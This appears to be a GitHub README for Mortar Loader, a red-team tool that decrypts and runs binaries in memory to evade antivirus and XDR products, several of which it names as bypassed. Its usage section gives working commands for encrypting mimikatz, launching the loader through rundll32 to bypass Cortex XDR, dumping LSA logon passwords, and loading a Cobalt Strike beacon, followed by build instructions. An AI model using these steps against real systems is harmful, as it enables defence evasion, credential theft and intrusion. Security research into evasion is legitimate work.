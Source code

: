 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky
* ESET 
* Malewarebytes 
* Mcafee 
* Cortex XDR 
* Windows defender 
* Cylance

detailed research : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions

CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

## Loader (DLL)
for bypassing Cortex XDR,add agressor.dll with bin.enc in the same folder and script the following bat file 
```
@echo off 
cmd.exe /c rundll32.exe agressor.dll,stealth
```
for normal usage you can directly execute the agressor.dll 

```
rundll32.exe agressor.dll,dec
```
## Loader (EXE)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlsa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling the Loader (windows only)
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads) and navigate into file > open  -> Run -> build 


# Compiling Encryptor(Linux/BSD/Arm/MacOS//windows)
either by downloading and installing Lazarus-IDE from the official site(https://www.lazarus-ide.org/index.php?page=downloads)

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```
# Support the research 
if you think you have benefited from this open-source project and want more updates in the future, please mind time and efforts by making a donation
https://donorbox.org/support-0xsp






